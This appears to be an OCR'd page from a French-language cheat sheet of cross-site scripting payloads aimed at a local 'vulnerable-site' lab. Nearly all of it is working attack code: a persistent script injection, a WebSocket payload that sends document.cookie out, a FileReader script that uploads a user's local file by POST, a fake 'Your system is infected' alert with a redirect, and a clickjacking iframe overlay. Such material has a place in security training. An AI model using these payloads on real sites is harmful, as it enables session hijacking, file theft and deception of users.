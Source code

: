 - **Injection d'une balise script persistante (persistent XSS) :**
  ```html
  <script>
      document.write('<script src="http://localhost/vulnerable-site/malicious.js"><\/script>');
  </script>
  ```

#### Scripts très avancés

- **Utilisation de WebSockets pour exfiltrer des données :**
  ```html
  <script>
      var ws = new WebSocket('ws://localhost/vulnerable-site/socket');
      ws.onopen = function() {
          ws.send('Exfiltrating data...');
          ws.send(document.cookie);
      };
  </script>
  ```

- **Exploitation de l'API FileReader pour voler des fichiers locaux (avec interaction utilisateur) :**
 

 ```html
  <script>
      var input = document.createElement('input');
      input.type = 'file';
      input.onchange = function(event) {
          var file = event.target.files[0];
          var reader = new FileReader();
          reader.onload = function(e) {
              var xhr = new XMLHttpRequest();
              xhr.open('POST', 'http://localhost/vulnerable-site/upload', true);
              xhr.setRequestHeader('Content-Type', 'application/octet-stream');
              xhr.send(e.target.result);
          };
          reader.readAsBinaryString(file);
      };
      document.body.appendChild(input);
  </script>
  ```

- **Déclenchement de fausses alertes de sécurité :**
  ```html
  <script>
      alert('Your system is infected! Click OK to fix.');
      window.location.href = 'http://localhost/vulnerable-site/fix';
  </script>
  ```

- **Interception des clics utilisateur (clickjacking) :**
  ```html
  <style>
      #clickjacker {
          position: absolute;
          top: 0;
          left: 0;
          width: 100%;
          height: 100%;
          opacity: 0;
      }
  </style>
  <iframe id="clickjacker" src="http://localhost/vulnerable-site"></iframe>
  ```
